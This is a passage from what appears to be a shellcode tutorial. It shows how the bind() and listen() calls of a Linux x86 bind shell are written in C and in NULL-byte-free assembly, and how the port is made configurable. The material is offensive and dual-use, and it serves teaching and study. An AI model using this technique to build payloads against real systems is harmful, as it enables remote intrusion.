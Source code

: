 ### bind(socketfd, {sa_family=AF_INET, sin_port=htons(7331), sin_addr=inet_addr("0.0.0.0")}, 16)
```c
// Setup struct for bind() argument
hostaddr.sin_family = AF_INET;
hostaddr.sin_port = htons(7168);
hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);

// Bind socket to ip 0.0.0.0, port 7168
bind(sockfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr));
```
Translated to x86 assemnly:
```asm
; bind(sockid, struct addr, len addr)
xor eax, eax    ; Clear EAX
mov al, 0x66    ; SYS_SOCKETCALL
xor ebx, ebx    ; Clear EBX
mov bl, 0x2     ; SYS_BIND
; Setup struct addr
push EDX        ; 0.0.0.0 (EDX is still all 0s)
sub esp, 2      ; Move ESP so we don't overwrite ip-addr
mov byte [esp], 0x1c    ; Push first byte for port
mov byte [esp+1], dl    ; Push second byte for port
push word 0x2   ; AF_INET
mov ecx, esp    ; Store ref to struct in ECX
; Setup bind arguments
push 0x10       ; Addr length (16)
push ecx        ; Struct addr
push esi        ; Ref to socketfd (which we stored in ESI earlier)
mov ecx, esp    ; Address of bind arguments
int 0x80        ; Exec syscall
```
Note: the reason we setup the port number by moving it byte-by-byte directly into the stack has to do with making the port configurable.
We pick port 7168 in this instance because when we convert this to hexadecimal, it becomes 0x1c00 which contains the NULL-byte. More about this later

### listen(socketfd, 2)
```c
listen(socketfd, 2)
```
Translated to x86 assembly:
```asm
xor eax, eax    ; Clear EAX
mov al, 0x66    ; SYS_SOCKETCALL
xor ebx, ebx    ; Clear EBX
mov bl, 0x4     ; SYS_LISTEN
push byte 0x2   ; Second argument for listen()
push esi        ; Reference to socketfd
mov ecx, esp    ; Reference to arguments
int 0x80        ; Exec syscall
```
